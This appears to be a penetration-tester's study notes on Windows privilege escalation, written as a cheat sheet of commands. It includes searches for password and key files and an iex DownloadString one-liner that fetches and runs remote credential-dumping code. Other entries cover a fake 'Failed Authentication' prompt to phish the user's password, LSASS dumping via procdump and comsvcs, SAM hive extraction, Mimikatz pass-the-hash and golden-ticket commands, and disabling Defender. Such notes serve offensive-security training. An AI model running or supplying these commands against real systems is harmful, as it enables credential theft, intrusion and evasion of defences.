 ```yaml
---
title: "3 - Windows Privesc"
classes: single
header:  
  teaser: /assets/images/posts/adx/adx-teaser3.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Intro to Windows Privesc"
description: "Intro to Windows Privesc"
categories:
  - notes
  - adx
tags:
  - beginner
  - AD
  - Windows 
toc: true
---
```


# Privesc

```powershell
> Local Enum

net localgroup Users
net localgroup Administrators
```

```powershell
whoami
whoami /all
net users
net accounts
```

```powershell
dir env: = enum envinroment variables

wmic bios 
wmic volume
```

```powershell
> network 

ipconfig /all
route print
arp -A
netstat -ano
net share
net use
wmic netuse list full
netsh firewall show state
netsh firewall show config
```


```powershell
cmd /c “dir /b /a /s c:\ > C:\Users\dir.txt”

then we can:
type dir.txt | findstr /i passw
type dir.txt | findstr /i ssh
type dir.txt | findstr /i kdbx //keePass Files database
type dir.txt | findstr /i vnc

other files:
unattend.xml or Unattended.xml
sysprep.inf or sysprep.xml
web.config
.bak, .log, .cnf, .conf, .ini, .xml, .txt, .gpg, .pgp, id_rsa, id_dsa, .ovpn, .rdp, vnc, ssh
```

```powershell
> credential manager

cmdkey /list
runas /savecred /user:<user> cmd.exe
```

dump credentials:
```powershell
iex (New-Object System.Net.WebClient).DownloadString("<link>");Enum-Creds or Get-VaultCredential
```

[github dumpCredStore](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1)

[github Get-VaultCredential](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-VaultCredential.ps1)

- Ask for the password for the user logged on the same machine (phishing attempt)

```powershell
$cred =$host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName);$cred.getnetworkcredential().password

$cred =$host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\admin',[Environment]::UserDomainName);$cred.getnetworkcredential().password
```


SessionGopher:
```powershell
find saved sessions of Putty, WinSCP, SuperPutty, FileZilla, RDP 
```


## Common Vulnerabilities
```powershell
- unquoted path
- weak file permissions - accessChk -uwcqv <user> *
→ sc config <service> binPath= <exe file>

- powerup
- jaws
- win suggestion
```


## LSASS
```powershell
Set the key ‘UseLogonCredential’ to 1:
C:\ red add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

PS > C:\rundll32.exe User32.dll,LockWorkStation
```

extract lsass:
```powershell
1. task manager > lsass.exe > create dump file > save the dump
2. procdump: 
  a) -ma = dump all the memory
  b) -r = generate a clone of the process before the dump
  c) .\procdump64 -accepteula -r -ma lsass.exe lsass
3. comsvcs.dll : rundll32 C:\Windows\System32\comsvcs.dll MiniDump <lsass PID> lsass_comsvcs.dmp full
4. Out-Minidump: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1
  a) . .\Out-Minidump.ps1
  b) Get-Process lsass | Out-Minidump
```


## REGISTER

> requires admin priv

extract register (sam, security, system):
```powershell
1. reg save hklm\sam .\sam
2. reg save hklm\security .\security
3. reg save hklm\system .\system
4. python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system local
```


## Mimikatz
```powershell
Privilege::debug # Obtain debugging rights
Token::elevate # Impersonate a token - SYSTEM or DA (Domain Admin)
Sekurlsa::LogonPassword # Extract credentials
Sekurlsa::pth # Perform Pass-the-Hash for command execution
Lsadump::SAM # Decrypt credentials from the registry
Kerberos::ptt # Perform pass-the-ticket by injecting into memory for later use
Kerberos::Golden # Create Golden/Silver tickets
sekurlsa::lsa /patch and /inject
```

example:
```powershell
mimikatz.exe “privilege::debug” “sekurlsa::minidump <dump file> ”sekurlsa::logonpasswords" exit
Invoke-Mimikatz
```
 
Variations:

[Github SafetyKatz](https://github.com/GhostPack/SafetyKatz)

[Github pypyKatz](https://github.com/skelsec/pypykatz)



## AMSI2

AMSITrigger - search for malicious strings

> requires admin priv

disable defender:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

